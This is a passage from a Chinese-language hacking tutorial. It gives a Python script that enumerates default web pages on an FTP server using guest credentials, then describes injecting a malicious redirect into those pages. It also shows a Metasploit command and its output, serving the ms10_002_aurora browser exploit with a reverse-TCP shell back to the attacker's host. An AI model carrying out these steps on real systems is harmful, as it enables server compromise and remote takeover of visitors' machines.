 **在 FTP 服务器上寻找 WEB 页面**

有了FTP访问权限，我们还要测试服务器是否还提供了WEB访问。为了测试这个，我们首先要列出FTP的服务目录并寻找默认的WEB页面。函数 returnDefault() 接受一个FTP连接作为输入并返回一个找到的默认页面的数组。它通过发送命令NLST列出目录内容。这个函数检查每个文件返回默认WEB页面文件名并将任何发现的默认WEB页面文件名添加到名为 retList 的列表中。完成迭代这些文件之后，函数将返回这个列表

```py
# coding=UTF-8
import ftplib
def returnDefault(ftp):
 try:
 dirList = ftp.nlst()
 except:
 dirList = []
 print('[-] Could not list directory contents.')
 print('[-] Skipping To Next Target.')
 return
 retList = []
  for fileName in dirList:
 fn = fileName.lower()
 if '.php' in fn or '.htm' in fn or '.asp' in fn:
 print('[+] Found default page: ' + fileName)
 retList.append(fileName)
 return retList
host = '192.168.95.179'
userName = 'guest'
passWord = 'guest'
ftp = ftplib.FTP(host)
ftp.login(userName, passWord)
returnDefault(ftp)
```

看着这个脆弱的FTP服务器，我们可以看到它有三个WEB页面在基目录下。好极了，我们知道可以移动我们的攻击向量到我们的被感染的页面。

```
attacker# python defaultPages.py
[+] Found default page: index.html
[+] Found default page: index.php
[+] Found default page: testmysql.php
```

**添加恶意注入脚本到 WEB 页面**

现在我们已经找到了WEB页面文件，我们必须用一个恶意的重定向感染它。为了快速的生成一个恶意的服务器和页面在 http://10.10.10.112:8080/exploit  页面，我们将使用Metasploit框架。注意，我们选择 ms10_002_aurora的Exploit,同样的Exploit被用在攻击Google的极光行动中。位与 http://10.10.10.112:8080/exploit 的页面将重定向到受害者，这将返回给我们一个反弹的Shell。

```
attacker# msfcli exploit/windows/browser/ms10_002_aurora
 LHOST=10.10.10.112 SRVHOST=10.10.10.112 URIPATH=/exploit
 PAYLOAD=windows/shell/reverse_tcp LHOST=10.10.10.112
LPORT=443 E
[*] Please wait while we load the module tree...
<...SNIPPED...>
LHOST => 10.10.10.112
SRVHOST => 10.10.10.112
URIPATH => /exploit
PAYLOAD => windows/shell/reverse_tcp
LHOST => 10.10.10.112
LPORT => 443
[*] Exploit running as background job.
[*] Started reverse handler on 10.10.10.112:443
[*] Using URL:http://10.10.10.112:8080/exploit
[*] Server started.
msf exploit(ms10_002_aurora) >
```
